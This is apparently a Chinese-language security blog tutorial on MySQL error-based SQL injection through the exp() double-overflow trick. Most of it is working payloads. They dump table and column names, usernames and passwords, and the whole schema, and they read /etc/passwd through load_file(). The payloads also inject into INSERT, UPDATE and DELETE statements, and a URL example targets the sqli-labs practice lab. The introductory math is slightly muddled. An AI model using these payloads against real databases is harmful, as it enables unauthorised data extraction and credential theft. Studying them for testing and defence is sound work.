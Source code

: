 ```yaml
---
title: Mysql注入之EXP报错
date: 2019-03-08 08:38:41
---
```

作者在MySQL中发现了一个Double型数据溢出。如果你想了解利用溢出来注出数据，当我们拿到MySQL里的函数时，作者比较感兴趣的是其中的数学函数，它们也应该包含一些数据类型来保存数值。所以作者就跑去测试看哪些函数会出现溢出错误。然后作者发现，当传递一个大于709的值时，函数exp()就会引起一个溢出错误.

## 一、函数介绍

EXP(x) 返回值e(自然对数的底)的x次方

![](/images/sql-exp/exp1.png)

分析: E ≈ 2.7182818284 5904523536 0287471352 6624977572 4709369995

![](/images/sql-exp/exp2.png)

在MySQL中,exp与ln和log的功能相反,简单介绍下,就是log和ln都返回以e为底数的对数.

ln(15)=loge(15)≈ 2.7182818284

![](/images/sql-exp/exp3.png)

指数函数为对数函数的反函数,exp()即为以e为底的对数函数，如等式:

![](/images/sql-exp/exp4.png)

## 二、注入

当涉及到注入时，我们使用否定查询来造成“DOUBLE value is out of range”的错误。作者之前的博文提到的，将0按位取反就会返回“18446744073709551615”，再加上函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号BIGINT值.

![](/images/sql-exp/exp5.png)

我们通过子查询与按位求反,造成一个DOUBLE overflow error,并借由此注出数据.
结合:
exp(~(select*from(select user())x));
最新版本mysql数据库无法实现报错;

![](/images/sql-exp/exp6.png)

5.5.42版本数据库可以实现报错;

![](/images/sql-exp/exp7.png)

## 三、注入数据

既然通过以上姿势可以报错显示部分信息,那么下面我们就可以爆出表、字段数据等;

### 3.1.爆表

```sql
SQL:
select exp(~(select*from(select table_name from information_schema.tables where table_schema='security' limit 0,1)x));
```

![](/images/sql-exp/exp8.png)

### 3.2.爆字段

```sql
SQL:
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));
```

![](/images/sql-exp/exp9.png)

### 3.3.爆数据

```sql
SQL:
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));
```

![](/images/sql-exp/exp10.png)

## 四、Dump表、字段数据

这个查询可以从当前的上下文中dump出所有的tables与columns.我们也可以dump出所有的数据库,但由于我们是通过一个错误进行提取,它会返回很少的结果.

```sql
SQL:
select exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where
table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))
```

![](/images/sql-exp/exp11.png)

DEMO:

```sql
URL:
http://sqli-labs.me:8888/Less-5/?id=1' or exp(~(select*from(select(concat(@:=0,(select count(*)from
information_schema.columns where
table_schema='security'and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))--+
```

![](/images/sql-exp/exp12.png)

## 五、文件读取

你可以通过load_file()函数来读取文件,但作者发现有13行的限制,该语句也可以在BIGINT overflow injections中使用.
select exp(~(select*from(select load_file('/etc/passwd'))a));
数据库版本：5.5.42

![](/images/sql-exp/exp13.png)

数据库版本：5.5.58 已经无法实现报错;

![](/images/sql-exp/exp14.png)

## 六、插入、更新、删除

与插入数据格式一致

```sql
SQL:
mysql> insert into users (id, username, password) values (2, '' ^ exp(~(select*from(select user())x)), 'test');
```

![](/images/sql-exp/exp15.png)

```sql
SQL:
mysql> insert into users (id, username, password) values (2, '' | exp(~(select*from(select(concat(@:=0,(select
count(*)from`information_schema`.columns where
table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)), 'Eyre');
```

![](/images/sql-exp/exp16.png)

```sql
update:
mysql> update users set password='test' ^ exp(~(select*from(select user())x)) where id=4;
```

![](/images/sql-exp/exp17.png)

```sql
delete:
mysql> delete from users where id='1' | exp(~(select*from(select user())x));
```

![](/images/sql-exp/exp18.png)

### 参考

```sql
https://osandamalith.com/2015/07/15/error-based-sql-injection-using-exp/
https://packetstormsecurity.com/files/133256/MySQL-Error-Based-SQL-Injection-Using-EXP.html
```

